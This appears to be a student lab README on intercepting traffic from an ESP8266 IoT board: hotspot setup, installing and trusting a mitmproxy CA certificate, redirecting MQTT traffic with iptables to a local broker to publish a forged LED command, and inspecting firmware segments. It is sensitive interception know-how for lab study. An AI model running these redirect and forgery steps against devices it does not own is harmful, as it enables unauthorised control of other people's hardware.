







# Sniff the network traffic
Linux Platform Version: Unbuntu 20.04
Web Browser: Google Chrome

## WiFi Hotspot Set Up
Since my computer has no port for ethernet cable, I found another solution to deal with this problem which was using *wihotspot*. The *wihotspot* allows Linux to connect the WiFi and share it using the hotspot at the same time. The installation procedure has been shown below.

1. To clone the latest package,
   ```powershell
   git clone https://github.com/lakinduakash/linux-wifi-hotspot

   cd linux-wifi-hotspot
   ```
2. To install the dependencies,
    ```powershell
   sudo apt install -y libgtk-3-dev build-essential gcc g++ pkg-config make hostapd
    ```
3. To build and install it,
   ```powershell
   make

   sudo make install
   ```
4. To run it,
   ```powershell
   wihotspot
   ```

After using the commands above, the UI will appear like the figure below. 



For convenience, the SSID and password are set to "syssec" and "systemsec" respectively. The wifi interface and internet interface are both set to `wlp2s0` and it will generate a virtual `ap0` network.

In so far, the hotspot has been built up and can be searched by other devices. 

## ESP Configuration
After opening the wifi network setting and through scanning, PC can find a wifi network named "ESPxxxxxxxx", eg. *ESP13061032*.



When connecting to it, it will automatically show the configuration page.



If WiFi hotspot is running and set to visible for the public, then using "configure WiFi", ESP can find the network; otherwise, using "configure WiFi (No Scan)" and filling SSID and Password, ESP can be manually configured and it will automatically connect to your network setting after the network appears.

The reset button on the board should be pressed after configuration is completed, the LED on the board will keeping "breathing" which indicates the successful connection.

The following command can show whether the board is connected to your configured hotspot.
```powershell
ip neigh show
```
The mac address of the board can be found and compared by using the following command.
```powershell
esptool.py chip_id
```

The result will be similar to this.



## MITMProxy Installation
The Linux binaries package can be downloaded from [mitmproxy.org](https://mitmproxy.org/).
```powershell
tar -zxvf mitmproxy-6.0.2-linux.tar.gz
```

Set them to the global environment for convenience.
```powershell
sudo mv mitmproxy mitmdump mitmweb /usr/bin
```

`mitmproxy`, `mitmdump`, and `mitmweb` can be used, but since the system and browser have not installed MITM certificate, they are not allowed to capture anything.

Open `Settings` -> `Network` -> `Network Proxy` (setting button) -> `Manual`.

Fill the blanks with `127.0.0.1: 8080`.


### Add Certificate to Ubuntu
#### method 1
`mitmdump` will generate the certificates in /root/.mitmproxy when it is used for the first time.
```powershell
mitmdump
```
In order to install the certificate on Ubuntu, it needs to convert the .pem file to the .crt file. After that, it can be installed on Ubuntu.
```powershell
sudo -i

ls -a

cd .mitmproxy

openssl x509 -in mitmproxy-ca-cert.pem -inform PEM -out mitmproxy-ca-cert.crt

sudo mkdir /usr/share/ca-certificates/extra

sudo cp  mitmproxy-ca-cert.crt /usr/share/ca-certificates/extra/mitmproxy-ca-cert.crt

sudo dpkg-reconfigure ca-certificates

# select the correct one and press Enter to continue
```


In so far, the certificate has been installed on your Unbuntu system.

#### method 2 (may not work for Google Chrome while is workable for Firefox)
The SwitchOmega extension should be installed first which can be found in [Chrome Web Store](https://chrome.google.com/webstore/detail/proxy-switchyomega/padekgcemlokbadohgkifijomclgjgif).

After setting the proxy to `[System Proxy]` (make sure that mitmdump is still running), visit mitm.it and download the Linux version mitmproxy-ca-cert.pem to anywhere you like and enter to that folder.
```powershell
mv mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy.crt

sudo update-ca-certificates
```

### Add Certificate to Chrome
If your browser is Google Chrome, you may not directly use method 2 above, since Chrome needs a certificate before visiting that webpage. 

Go `Settings` -> `Privacy and security` -> `Security` -> `Manage certificates` ->  `Authories` -> `Import` and select mitmproxy-ca-cert.pem to install (root/.mitmproxy). *org-mitmproxy* will apear in the list after being correctly imported.

Open any web pages to test mitm now is workable on your PC. In mitmdump, where the requests are collected, you can see I am visiting YouTube.



## Man-in-the-middle Attack
```powershell
#run local mosquitto server
mosquitto -p 8888

#redirect the traffic
sudo iptables -t nat -A PREROUTING -i wlp2s0 -p tcp --dport 1883 -j REDIRECT --to-port 8888
sudo iptables -t nat -A PREROUTING -i ap0 -p tcp --dport 1883 -j REDIRECT --to-port 8888

# publish forgary message
mosquitto_pub -h localhost -p 8888 -t <topic> -m <command>

#for example
mosquitto_pub -h localhost -p 8888 -t led/wemos17/action -m 0
```


## Hidden Firmwork
```powershell
dd if=firmware.bin of=firmware-no-bootloader.bin bs=4k skip=1

esptool.py image_info firmware-no-bootloader.bin
```

```
Segment 1: len 0x62184 load 0x40201010 file_offs 0x00000008 [IROM]
Segment 2: len 0x000fc load 0x40100000 file_offs 0x00062194 [IRAM]
Segment 3: len 0x06ab8 load 0x401000fc file_offs 0x00062298 [IRAM]
Segment 4: len 0x00518 load 0x3ffe8000 file_offs 0x00068d58 [DRAM]
Segment 5: len 0x00818 load 0x3ffe8520 file_offs 0x00069278 [DRAM]
```


a3=>s_/action_3ffe86c3,PTR_s_/action_40201324